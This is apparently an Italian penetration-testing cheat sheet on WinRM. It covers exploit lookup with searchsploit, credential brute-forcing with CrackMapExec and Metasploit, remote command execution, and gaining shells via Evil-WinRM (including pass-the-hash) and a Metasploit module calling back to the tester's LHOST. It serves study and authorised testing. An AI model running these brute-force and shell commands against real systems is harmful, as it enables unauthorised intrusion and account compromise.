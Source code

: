 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <ftp-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

---

## Bruteforce
Proviamo ora a cercare di ottenere le credenziali manualmente
### CrackMapExec
CrackMapExec è uno strumento multiuso per testare l’autenticazione nei servizi Windows. 
```bash
crackmapexec winrm <IP> -u <userList> -p <passwordList>
```
> la stessa sintassi vale per l'autenticazione a singolo utente

### Metasploit
```bash
use auxiliary/scanner/winrm/winrm_login
set RHOSTS <IP>
set USER_FILE <lista_utenti>
set PASS_FILE <lista_password>
set PASSWORD anything
run
```
> Il campo `PASSWORD` deve sempre essere valorizzato anche se stai usando un dizionario, altrimenti il modulo non eseguirà il test.

---

## Esecuzione Remota di Comandi
Dopo aver ottenuto delle credenziali per qualche account, possiamo accedere al servizio per eseguire dei comandi remoti.
### CrackMapExec
```bash
crackmapexec winrm <IP> -u <username> -p <password> -x "whoami"
```
Permette di eseguire comandi (`-x`) come `whoami`, `hostname`, `systeminfo`, ecc.

### Metasploit
```bash
use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS <IP>
set USERNAME <utente>
set PASSWORD <password>
set CMD whoami
run
```
Questo modulo è utile per:
- Verificare se le credenziali funzionano
- Eseguire comandi diagnostici
- Operare in ambienti con logging avanzato
- Testare permessi utente

---

## Accesso
Dopo aver ottenuto delle credenziali e confermato che l'esecuzione dei comandi remoti funziona, possiamo accedere direttamente al servizio per averne il controllo. 
### Evil-WinRM
tool in Ruby pensato per fornire una shell interattiva remota su Windows sfruttando il servizio WinRM, autenticandosi con credenziali valide.
```bash
evil-winrm -u <username> -p '<password>' -i <IP>
```
> Per accedere con NTLM Hash cambiare `-p` con `-H`

Funzionalità disponibili:
- Shell PowerShell interattiva
- Upload e download file
- Esecuzione script PowerShell
- Post-exploitation tools

### Metasploit
```bash
use exploit/windows/winrm/winrm_script_exec
set RHOSTS <IP>
set LHOST <tuo_IP>
set LPORT <Port>
set USERNAME <utente>
set PASSWORD <password>
set FORCE_VBS true
run
```
> L’opzione `FORCE_VBS` forza l’esecuzione tramite VBScript e aumenta la compatibilità su sistemi con policy restrittive.

